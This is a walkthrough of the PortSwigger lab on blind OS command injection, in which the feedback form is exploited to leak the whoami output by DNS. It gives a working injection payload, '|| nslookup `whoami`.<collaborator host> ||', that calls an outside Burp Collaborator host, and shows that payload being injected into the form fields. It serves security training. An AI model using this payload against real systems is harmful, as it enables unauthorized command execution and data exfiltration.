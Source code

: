 # Lab: Blind OS command injection with out-of-band data exfiltration

 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

**Note**
*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. *


## Different ways of injecting commands

Just as an example, notice how the date command can be used with echo

```bash
# With nothing echo just sends the word date
└─$ echo date    
date

# with a $(command) the date command is executed
└─$ echo $(date)                                                                                             130 ⨯
Thu Dec 22 02:10:43 PM EST 2022

# backticks can do the same thing
└─$ echo `date` 
Thu Dec 22 02:10:44 PM EST 2022
```

# Step 1 Get attack server url from burp collaborator

I do this from the collaborator tab and then clicking the `copy to clipboard` button:

![image](https://user-images.githubusercontent.com/83407557/209216542-a9fc0f44-be83-4312-9f42-6cad190b9513.png)

giving me the following url:

ugee6gsm1bwnti6ai4lp316ngem5avyk.oastify.com

# Step 2 Inspect feedback request to find OS command injection

![image](https://user-images.githubusercontent.com/83407557/209216839-3c1dcad7-0f34-4181-a3ec-fa98c1f3ef7b.png)

Capturing this POST request, 4 potential injection point are found

![image](https://user-images.githubusercontent.com/83407557/209216944-252c4d1e-0ade-4f52-949b-3071261743b4.png)


# Step 2 create a payload

Since I need the output of `whoami` I will use the following command to send that as a subdomain for my attack server with the following:

```bash
|| nslookup `whoami`.ugee6gsm1bwnti6ai4lp316ngem5avyk.oastify.com ||
```
# Step 3 inject payload at each point:

*note: payload are url-encoded*

![image](https://user-images.githubusercontent.com/83407557/209217468-4bcbaa62-a498-41c6-a5a1-d097622c35e9.png)


however I get an error because the name parameter is too long:

![image](https://user-images.githubusercontent.com/83407557/209217738-b3cb60c1-386f-46b9-98f7-e12a055293f0.png)

Sending the payloads on the other three fields only the error goes away

![image](https://user-images.githubusercontent.com/83407557/209218029-e0b7623e-c5f8-495e-be76-bb2735d561de.png)

![image](https://user-images.githubusercontent.com/83407557/209218072-b1d3e30c-4c4d-4b83-adf3-5ebe2190adc7.png)

# Step 4 check attack server logs

I see that DNS requests were made, and they contain the username as a subdomain:

![image](https://user-images.githubusercontent.com/83407557/209218339-639eac2b-0daf-4a8f-bf3a-c7b7c1b3d262.png)


# Step  5 Submit username 

![image](https://user-images.githubusercontent.com/83407557/209218457-43ae5b0b-9462-4461-9719-9d445c3dd23e.png)

which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/209218541-5fae3325-f135-4d57-8ec2-8f234c5b0f13.png)

